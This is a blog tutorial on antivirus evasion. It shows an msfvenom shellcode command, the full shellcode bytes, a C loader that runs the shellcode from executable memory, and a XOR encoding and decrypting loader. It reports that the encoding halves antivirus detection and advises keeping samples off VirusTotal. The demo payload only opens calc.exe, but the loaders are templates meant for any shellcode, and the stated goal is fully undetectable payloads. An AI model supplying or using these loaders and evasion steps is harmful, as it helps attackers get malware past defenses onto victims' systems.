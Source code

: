 ```yaml
---
layout: post
title: Antivirus Evasion - XOR Encryption
subtitle: Is It Still Detectable?
cover-img: /assets/img/evasion/xor/evasion-thumb.png
thumbnail-img: ""
tags: [evasion, security]
---
```

Hello Guys, In this tutorial, we will learn to bypass antivirus detection for payload execution. We will be using XOR encryption as an obfuscation technique.

The objective of this tutorial is to bypass maximum antivirus and not create a fully undetectable payload. Rather, we will follow a series of steps to make sure how it can be made FUD.

## What is XOR encryption?

In other encryption techniques, we encrypt the data (plaintext) with a key, and to get the original data back from ciphertext we perform a decryption process. 

But in XOR encryption, we encrypt the plaintext with a key to get ciphertext. The interesting fact is that to get the original data (plaintext) back, we re-encrypt the data with the same key used, i.e., the decryption process is itself encryption.

The below images might help you get an idea of how exactly XOR logic works.

![xor operation](../assets/img/evasion/xor/xor-operation.png)

![xor operation reverse](../assets/img/evasion/xor/xor-operation-reverse.png)

## Detection without XOR

For generating the shell code, we are using msfvenom. Before starting the actual antivirus evasion process using the XOR technique, let's check how many antivirus programs detect the payload without any evasion technique.

The msfvenom command to generate a shellcode that runs calc.exe is as follows:
~~~
msfvenom -p windows/x64/exec CMD=calc.exe -b "x00" -f c --platform Windows
~~~

The above command will generate shell code that executes on the x64 architecture.

The shellcode generated is as follow:
~~~
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd";
~~~

We will use C lang for compiling the shellcode into an executable that can run on the x64 system.

The C lang template is as follows:
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Replace Your Shell Code Here
int main()
{
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
}
~~~

We get the result, the calc.exe does gets executed.

![result without xor](../assets/img/evasion/xor/result-without-xor.png)

The compiled exe gets detected by 13 antivirus engines out of 40. 

![before xor](../assets/img/evasion/xor/before-xor.png)

{: .box-note}
**NOTE:** Never upload your samples to Virustotal, Use [AntiScan](https://antiscan.me/) or [KleenScan](https://www.kleenscan.com/index). 

## Detection with XOR


Let's try XOR encryption to see how many AVs it is able to bypass.

The C Lang template to generate XOR-ed shell code is as follows:
~~~c
#include <stdio.h>

unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Place Previous Generated Shell Code Here

int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf); i++)
 {
  printf("\\x%02x",buf[i]^key);
 }
}
~~~
You can change the value of the key as per your needs (it can only be a single character).

The XOR-ed shell code is
~~~ 
\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d
~~~

The C lang code to run the XOR-ed shellcode is
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d"; // XOR-ed shellcode Here
int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf) - 1; i++)
 {
  buf[i] = buf[i]^key;
 }
 
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
}
~~~
We get the result, the calc.exe does gets executed.

![result with xor](../assets/img/evasion/xor/result-with-xor.png)

Let's check how many antivirus programs detect the encrypted payload using XOR.

![after xor](../assets/img/evasion/xor/after-xor.png)

We were able to reduce the detection rate by almost 50% using a simple technique.

In the coming tutorial, we will explore different evasion techniques to make it FUD.